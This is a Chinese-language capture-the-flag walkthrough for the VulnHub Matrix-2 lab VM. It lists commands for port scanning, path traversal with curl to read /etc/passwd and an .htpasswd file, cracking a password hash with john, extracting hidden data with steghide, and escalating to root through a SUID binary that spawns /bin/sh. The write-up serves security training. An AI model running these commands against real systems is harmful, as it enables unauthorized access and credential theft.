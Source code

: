 # Matrix-2

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：Matrix-2（IP：192.168.56.108）

下载：https://www.vulnhub.com/entry/matrix-2,279/

## Let's go

```
nmap -p- -A 192.168.56.108
```

![](./img/Matrix2-01.png)

> **我们进行查看发现1337端口需要认证，12320端口是命令终端，12321端口请求失败**

![](./img/Matrix2-02.png)

![](./img/Matrix2-03.png)

> **在12322端口查看上面得到的 robots.txt 文件，再次发现 file_view.php**

![](./img/Matrix2-04.png)

> **访问 file_view.php 发现是空白页，尝试发送GET请求失败，可能是请求方式不对**

![](./img/Matrix2-05.png)

```
curl -X POST -k https://192.168.56.108:12322/file_view.php -d "file=../../../../../etc/passwd"
```

![](./img/Matrix2-06.png)

```
curl -X POST -k https://192.168.56.108:12322/file_view.php -d "file=../../../../../etc/nginx/sites-available/default"
```

![](./img/Matrix2-07.png)

```
curl -X POST -k https://192.168.56.108:12322/file_view.php -d "file=../../../../../var/www/p4ss/.htpasswd"
```

![](./img/Matrix2-08.png)

> **得到一串密文，我们使用 john 进行破解**

```
echo 'Tr1n17y:$apr1$7tu4e5pd$hwluCxFYqn/IHVFcQ2wER0' > hash
john hash
```

![](./img/Matrix2-09.png)

>**发现可以使用此信息在1337端口登录**

![](./img/Matrix2-10.png)

![](./img/Matrix2-11.png)

> **查看图片并没有发现什么，我们把它下载下来进行审查**

```
steghide info h1dd3n.jpg	#密码是上面得到的n30
steghide extract -sf h1dd3n.jpg -p n30
cat n30.txt
```

![](./img/Matrix2-12.png)

> **使用得到的信息在12320端口登录成功**

```
username:n30
password:P4$$w0rd
```

![](./img/Matrix2-13.png)

```
find / -perm -u=s -type f 2>/dev/null
```

![](./img/Matrix2-14.png)

> **这个 morpheus 很可疑，查看bash历史记录发现使用方法**

![](./img/Matrix2-15.png)

```
morpheus 'BEGIN {system("/bin/sh")}'
cd /root
cat flag.txt
```

![](./img/Matrix2-16.png)